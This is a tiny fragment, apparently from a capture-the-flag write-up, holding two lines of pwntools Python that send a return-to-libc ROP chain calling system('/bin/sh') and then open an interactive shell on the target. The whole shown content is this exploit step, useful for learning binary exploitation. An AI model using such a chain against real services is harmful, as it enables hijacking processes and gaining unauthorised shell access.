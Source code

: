 ```
c.sendlineafter(b'> ', flat(poprdi + 1, poprdi, next(libc.search(b'/bin/sh')), libc.sym['system']))
c.interactive()

```
